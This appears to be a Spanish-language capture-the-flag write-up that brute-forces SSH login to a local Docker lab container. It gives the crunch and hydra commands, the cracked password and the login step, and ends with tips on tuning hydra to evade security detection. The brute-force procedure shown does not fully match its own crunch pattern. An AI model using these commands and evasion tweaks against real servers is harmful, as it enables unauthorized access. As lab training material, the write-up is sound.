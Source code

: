 Reto CTF: Acceso SSH a Contenedor Ubuntu

Descripción del Reto

En este reto se proporciona una imagen Docker basada en Ubuntu con un servicio SSH habilitado. El objetivo es:

Desplegar el contenedor Docker y exponer el puerto SSH.

Identificar el usuario objetivo (legion).

Generar un diccionario de posibles contraseñas con crunch.

Realizar un ataque de fuerza bruta al servicio SSH usando hydra.

Obtener la contraseña correcta y acceder al contenedor como legion.

Prerrequisitos

Docker instalado y en ejecución.

Herramientas en Kali Linux: crunch, hydra.

1. Despliegue del Contenedor SSH

Se usa la imagen jaiderospina/retoctf:1.0 y se expone el puerto local 2222 al 22 interno.

# Eliminamos contenedor previo (si existe)
docker rm -f mi-contenedor-ssh



# Desplegamos el contenedor en background
docker run -d -p 2222:22 --name mi-contenedor-ssh jaiderospina/retoctf:1.0


docker ps


2. Generación de Diccionario de Contraseñas

Con crunch se genera un archivo esdeo.lst con combinaciones de 5 caracteres siguiendo el patrón ES%?0.

crunch 5 5 -t ES%?0 -o esdeo.lst


3. Ataque de Fuerza Bruta con Hydra

Configuramos hydra para atacar SSH en el puerto 2222, con usuario legion y diccionario esdeo.lst.

hydra -l legion -P esdeo.lst -s 2222 localhost ssh


Tras revisar que no se encontró contraseña, se ajusta el diccionario (por ejemplo, mayúsculas mixtas) y se vuelve a ejecutar:

hydra -l legion -P combinadas.lst -s 2222 localhost ssh


La contraseña hallada fue:

Esdeg

4. Acceso al Contenedor como legion

Con la contraseña válida obtenemos acceso SSH:

ssh legion@localhost -p 2222

5. Conclusiones y Posibles Mejoras

La combinación de Docker, crunch y hydra permite automatizar un ataque de fuerza bruta eficaz en entornos controlados.

Mejoras:

Implementar reglas de exclusión y throttling para reducir la carga en el servidor SSH.

Añadir delays o cambiar el número de tareas paralelas (-t) en hydra para evadir detecciones de seguridad.

Probar ataques dirigidos con reglas de Hashcat y diccionarios más completos.
